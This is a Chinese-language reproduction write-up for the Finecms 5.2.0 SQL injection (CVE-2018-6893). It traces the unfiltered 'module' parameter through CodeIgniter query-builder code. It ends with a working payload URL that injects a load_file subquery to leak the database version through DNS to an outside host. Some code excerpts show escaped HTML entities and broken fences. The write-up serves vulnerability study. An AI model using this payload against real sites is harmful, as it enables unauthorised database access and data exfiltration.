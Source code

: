 ```yaml
---
title: （CVE-2018-6893）Finecms SQL注入漏洞
id: zhfly2942
---
```


# （CVE-2018-6893）Finecms 5.2.0 SQL注入漏洞

## 一、漏洞简介

Finecms 5.2.0版本中的`controllers/member/Api.php`文件存在SQL注入漏洞，该漏洞源于程序没有进行有效的过滤。远程攻击者可利用该漏洞执行SQL命令。

## 二、漏洞影响

Finecms 5.2.0

## 三、复现过程

漏洞位置在：

finecms/dayrui/controllers/member/Api.php 590行左右

```
public function checktitle() {
    $id = (int)$this->input->get('id');
    $title = $this->input->get('title', TRUE);
    $module = $this->input->get('module');
    (!$title || !$module) && exit('');
    $num = $this->db->where('id<>', $id)->where('title', $title)->count_all_results(SITE_ID.'_'.$module);
    $num ? exit(fc_lang('<font color=red>'.fc_lang('重复').'</font>')) : exit('');
} 
```

可以看到方法count_all_results()使用了$module,count_all_results()方法如下：

```
public function count_all_results($table = '', $reset = TRUE)
    {
        if ($table !== '')
        {
            $this->_track_aliases($table);
            $this->from($table);
        }

```
 // ORDER BY usage is often problematic here (most notably
    // on Microsoft SQL Server) and ultimately unnecessary
    // for selecting COUNT(*) ...
    if ( ! empty($this-&gt;qb_orderby))
    {
        $orderby = $this-&gt;qb_orderby;
        $this-&gt;qb_orderby = NULL;
    }

    $result = ($this-&gt;qb_distinct === TRUE OR ! empty($this-&gt;qb_groupby) OR ! empty($this-&gt;qb_cache_groupby) OR $this-&gt;qb_limit OR $this-&gt;qb_offset)
        ? $this-&gt;query($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')."\nFROM (\n".$this-&gt;_compile_select()."\n) CI_count_all_results")
        : $this-&gt;query($this-&gt;_compile_select($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')));

    if ($reset === TRUE)
    {
        $this-&gt;_reset_select();
    }
    // If we've previously reset the qb_orderby values, get them back
    elseif ( ! isset($this-&gt;qb_orderby))
    {
        $this-&gt;qb_orderby = $orderby;
    }

    if ($result-&gt;num_rows() === 0)
    {
        return 0;
    }

    $row = $result-&gt;row();
    return (int) $row-&gt;numrows;
} 
``` 
```

可以看到对传入的table参数进行了是否为空校验以及经过两个函数的处理，再跟进_track_aliases函数继续进行分析：

```
protected function _track_aliases($table)
    {
        if (is_array($table))
        {
            foreach ($table as $t)
            {
                $this->_track_aliases($t);
            }
            return;
        }

```
 // Does the string contain a comma?  If so, we need to separate
    // the string into discreet statements
    if (strpos($table, ',') !== FALSE)
    {
        return $this-&gt;_track_aliases(explode(',', $table));
    }

    // if a table alias is used we can recognize it by a space
    if (strpos($table, ' ') !== FALSE)
    {
        // if the alias is written with the AS keyword, remove it
        $table = preg_replace('/\s+AS\s+/i', ' ', $table);

        // Grab the alias
        $table = trim(strrchr($table, ' '));

        // Store the alias, if it doesn't already exist
        if ( ! in_array($table, $this-&gt;qb_aliased_tables, TRUE))
        {
            $this-&gt;qb_aliased_tables[] = $table;
            if ($this-&gt;qb_caching === TRUE &amp;&amp; ! in_array($table, $this-&gt;qb_cache_aliased_tables, TRUE))
            {
                $this-&gt;qb_cache_aliased_tables[] = $table;
                $this-&gt;qb_cache_exists[] = 'aliased_tables';
            }
        }
    }
} 
``` 
```

可以看到table在这个函数中经过了较多过滤，继续看下一个函数from：

```
public function from($from)
    {
        foreach ((array) $from as $val)
        {
            if (strpos($val, ',') !== FALSE)
            {
                foreach (explode(',', $val) as $v)
                {
                    $v = trim($v);
                    $this->_track_aliases($v);
                    $this->qb_from[] = $v = $this->protect_identifiers($v, TRUE, NULL, FALSE);
                    if ($this->qb_caching === TRUE)
                    {
                        $this->qb_cache_from[] = $v;
                        $this->qb_cache_exists[] = 'from';
                    }
                }
            }
            else
            {
                $val = trim($val);
                // Extract any aliases that might exist. We use this information
                // in the protect_identifiers to know whether to add a table prefix
                $this->_track_aliases($val);
                $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
                if ($this->qb_caching === TRUE)
                {
                    $this->qb_cache_from[] = $val;
                    $this->qb_cache_exists[] = 'from';
                }
            }
        }
        return $this;
    } 
```

可以看到经过这两个函数以及finecms本身get方法的过滤，能用的符号不多了，但是括号以及逗号都还能使用。

在测试的时候，如果传入的参数比如：module=1，则会爆表不存在的错误，并且可以看到查询的语句，而module参数位于from位置，也就是查询的表的位置，于是使用逗号分割查询的表，并使用dns外带数据

payload如下

```
http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=13&title=123&module=news,(select load_file(concat(0x5c5c5c5c,version(),0x2e6d7973716c2e61687a6935672e636579652e696f5c5c616263))) as total 
```